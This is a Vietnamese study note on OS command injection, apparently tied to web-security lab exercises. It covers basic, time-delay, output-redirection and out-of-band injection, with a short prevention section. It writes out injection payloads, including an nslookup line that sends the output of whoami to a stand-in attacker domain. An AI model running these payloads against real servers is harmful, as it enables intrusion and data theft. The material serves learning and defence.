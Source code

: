 # OS command injection

## What is OS command injection?

- OS command injection (shell injection) là một lỗ hổng web cho phép thực thi tùy ý các lệnh của hệ điều hành trên máy chủ và thường xâm phạm hoàn toàn ứng dụng và máy chủ của nó.

## Executing arbitrary commands.

- Một web hiển thị thông tin mặt hàng qua URL:
```https://insecure-website.com/stockStatus?productID=381&storeID=29```

- Dữ liệu được truyền qua các param sẽ được xử lí bằng câu lệnh : ```stockreport.pl 381 29```

- Ta chi cần truyền vào param *productID* giá trị *& echo xyz &* => câu lệnh xử lí sẽ chuyển thành ```stockreport.pl & echo xyz & 29``` => xyz được in ra nhờ lệnh echo .

- Lab:
	+ Lab: OS command injection, simple case.[exploit](exploit/lab1.py)

## Useful commands.

Purpose of command	  | Linux	    | Windows
______________________|_____________|________________
Name of current user  | whoami	    | whoami
Operating system	  | uname -a	| ver
Network configuration |	ifconfig	| ipconfig /all
Network connections	  | netstat -an	| netstat -an
Running processes	  | ps -ef	    | tasklist

## Blind OS command injection vulnerabilities.

- Nhiều trường hợp tiêm lệnh hệ điều hành là lỗ hổng bảo mật. Điều này có nghĩa là ứng dụng không trả về kết quả đầu ra từ lệnh trong phản hồi HTTP của nó. Các lỗ hổng bảo mật vẫn có thể được khai thác, nhưng cần phải có các kỹ thuật khác nhau.

### Detecting blind OS command injection using time delays.

- Bạn có thể sử dụng một lệnh được đưa vào sẽ kích hoạt độ trễ thời gian, cho phép bạn xác nhận rằng lệnh đã được thực thi dựa trên thời gian ứng dụng cần để phản hồi .

- VD: *& ping -c 10 8.8.8.8 &*

- Lab:
	+ Lab: Blind OS command injection with time delays.[exploit](exploit/lab2.py)

### Exploiting blind OS command injection by redirecting outp.

- Bạn có thể chuyển hướng đầu ra từ lệnh được đưa vào thành một tệp trong thư mục gốc mà sau đó bạn có thể truy xuất bằng trình duyệt của mình.

```& whoami > /var/www/static/whoami.txt &```

- Lab:
	+ Lab: Blind OS command injection with output redirection.[exploit](exploit/lab3.py)

### Exploiting blind OS command injection using out-of-band (OAST) techniques.

- Bạn có thể sử dụng một lệnh để kích hoạt tương tác mạng ngoài băng tần với hệ thống mà bạn kiểm soát, sử dụng các kỹ thuật OAST.

```& nslookup kgji2ohoyw.web-attacker.com &```
or
```& nslookup `whoami`.kgji2ohoyw.web-attacker.com &```

- Lab :
	+ Lab: Blind OS command injection with out-of-band interaction.[exploit](exploit/lab4.py)
	+ Lab: Blind OS command injection with out-of-band data exfiltration.[exploit](exploit/lab5.py)

## Ways of injecting OS commands.

- Một số ký tự có chức năng như dấu phân cách lệnh, cho phép các lệnh được xâu chuỗi lại với nhau.

	+ Win and Unix : && , &, || , |
	+ Unix : ; , 0x0a , \n
	+ Thực thi shell unix : *`command`* , *${command}*

## How to prevent OS command injection attacks.

- Không nên dùng các lệnh hệ thống để xử lí các hành vi trên ứng dụng . Trong trường hợp cần sử dụng thì cần phải áp dụng các chính sách sau :

	+ Xác thực dựa trên danh sách trắng các giá trị được phép.
	+ Xác thực rằng đầu vào là một số.
	+ Xác thực rằng đầu vào chỉ chứa các ký tự chữ và số, không có cú pháp hoặc khoảng trắng nào khác.